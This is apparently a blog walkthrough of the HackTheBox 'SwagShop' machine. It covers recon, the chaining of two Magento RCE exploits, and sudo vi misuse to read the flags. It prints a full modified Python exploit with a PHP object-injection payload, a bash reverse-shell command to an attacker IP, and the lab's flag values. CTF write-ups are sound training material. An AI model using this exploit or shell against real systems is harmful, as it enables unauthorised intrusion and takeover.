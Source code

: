 ```yaml
---
title: HackTheBox - SwagShop
date: 2020-12-26 18:10:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Magento, e-commerce, SQLi, chaining exploits, fixing exploit, linpeas, sudo misconfiguration, vi, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/SwagShop.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN SwagShop-full-port-scan.txt 10.10.10.140
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache 2.4.18 (port 80) | Magento (open source e-commerce)

[http://10.10.10.140/](http://10.10.10.140/) seems to be an online shop with a **Magento** backend:

![shop](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/shop.png)

2014 is the last time the website was edited?! 

By navigating through the website, there is something strange that we can notice, directories are prefixed with `/index.php/`. This is probably due to **apache mod-rewrite misconfiguration**:

![strange](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/strange.png)

Thereby, I ran `dirb`:

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/dirb.png)

And we found an admin panel on [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin):

![admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/admin-panel.png)

#### exploit creates admin account  

Despite the fact that I don't know the version yet, I've researched some exploits but either they are outdated _(if we refer to the 2014 copyright)_, or they require authentication credentials, or they target specific magento plugins.

Except for this one [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977). I just changed line 5 and 13 because of the `/index.php` prefix:

![rce](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/rce.png)

An it worked:

![worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/worked.png)

I logged in and I didn't understand why I was redirected to this page first:

![png](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/png.png)

Then I changed the URL to [http://10.10.10.140/index.php/admin](http://10.10.10.140/index.php/admin) and I was redirected to the Magento's admin dashboard:

![magento-admin-panel](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magento-admin-panel.png)

#### `magescan`

At this point, I looked for _"magento scanners"_ and I found this [one](https://github.com/steverobbins/magescan) (`magescan`):

![magescan-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-2.png)

![magescan-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/magescan-1.png)

If we take a look at this URL that the scanner found &rarr; [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml), we get mysql credentials in clear text:

![credentials](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/creds.png)

#### exploit remote code execution

Now that we know the version, we can take a look at the exploit which requires authentication: [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)

We fill these lines with the credentials created by the previous exploit, and the install date we saw on [http://10.10.10.140/app/etc/local.xml](http://10.10.10.140/app/etc/local.xml):

![exploit 2 args](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-help.png)

![config exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-config.png)

Then I encountered this error:

![error 2 exploit 2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/exploit-2-error-2.png)

I had to change line containing:

```python
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
```

into:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/2y.png)

Exploit after updates:

```python
from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)

tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

Finally the exploit worked:

![exploit worked](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/success.png)

## Reverse shell (`www-data`)

```bash
$ python 37811.py http://10.10.10.140/index.php/admin/ "bash -c 'bash -i >&/dev/tcp/10.10.14.7/4444 0>&1'"
```

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/sh.png)

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/reverse-shell.png)

Now that we have an acces to the machine's shell, let's do enumeration with **linpeas.sh**:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/linpeas.png)

Thanks to this misconfiguration with the wildcard we can read both user and root flags, using `vi` as follows:

## User (`haris`)

```bash
$ sudo /usr/bin/vi /var/www/html/../../../home/haris/user.txt
```

![harris](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/haris.png)

- flag: `a448877277e82f05e5ddf9f90aefbac8`

## Root

```bash
$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/swagshop/root.png)

- flag: `c2b087d66e14a652a3b86a130ac56721`
___

## Useful links

- [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397)
- [Magento eCommerce - Remote Code Execution](https://www.exploit-db.com/exploits/37977)
- [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution ](https://www.exploit-db.com/exploits/37811)